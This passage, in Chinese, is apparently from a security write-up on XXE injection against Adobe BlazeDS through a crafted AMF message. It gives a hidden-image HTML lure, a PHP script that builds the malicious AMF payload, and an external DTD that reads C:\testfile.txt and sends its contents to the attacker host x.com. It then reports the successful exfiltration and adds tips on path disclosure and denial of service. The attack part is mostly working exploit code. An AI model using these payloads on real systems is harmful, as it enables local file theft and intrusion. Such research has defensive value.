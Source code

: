 ```
#!html
<html><body>
Burp Suite + BlazeDS
<img src="http://x.com/test/amf_win.php" style="display:none"/>
</body></html>
```

其中调用的`amf_win.php`内容如下，该代码的作用就是输出一个恶意构造的含有XML的AMF数据：

```
#!php
<?php

function amf_exploit() {
    $header = pack('H*','00030000000100036162630003646566000000ff0a000000010f');
    $xml = '<!DOCTYPE x [ <!ENTITY % dtd SYSTEM "http://x.com/test/dyndtd_win.xml"> %dtd; ]><x/>';
    $xml_sz = pack('N', strlen($xml));
    return ($header . $xml_sz . $xml);  
}

header('Content-Type: application/x-amf');
print(amf_exploit());

?>
```

其中，调用的`dyndtd_win.xml`内容如下，目的就是读取C盘下的testfile.txt，然后发送至我们的服务器x.com上：

```
#!xml
<!ENTITY % yolo SYSTEM 'file:///C:/testfile.txt'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'http://x.com/?%yolo;'>">
%c;
%rrr;
```

接着，我们打开BurpSuite，访问我们精心构造的页面进行抓包。

![p4](http://drop.zone.ci/images_result/images/2015122400082971169436.png)

可以看到，我们打开fortest.html后，burp会访问`amf_win.php`，在Wireshark中，我们可以看到我本机的C:\testfile.txt的内容this is a secret!被发送至服务器端。

# 0x06 额外

------

1. 对于BlazeDS，你可以通过 %foo; ]>Parameter entity 3的方法来快速暴露出其所在的程序路径，接着就可以继续通过前面所述的方法来进行目录文件列举，寻找我们感兴趣的文件。如下图所示：

   ![p5](http://drop.zone.ci/images_result/images/2015122400083140285527.png)

2. XXE读取文件内容上的限制使得我们能读取的敏感内容受到限制，具体如何利用该漏洞进行下一步，就看各自的发挥了。

3. 在一些对实际案例的测试（包括腾讯某服务器或是一些vCloud Director服务器）中发现，如果使用外部的DTD，一些服务器返回的错误信息是如下的样子：

   ```
   #!bash
   [!] Connection OK, but a timeout was reached...
   ```

   造成这个错误信息的原因猜测可能是服务器禁止了外部资源的访问。对于这些服务器，无法使用外部DTD，参数实体又只能在外部DTD中被引用，使得上述的报错读取文件的方法变得不可行。不过，通过XXE来进行拒绝服务可能是可行的，由于担心对目标服务器造成不良影响，并未进行进一步的测试。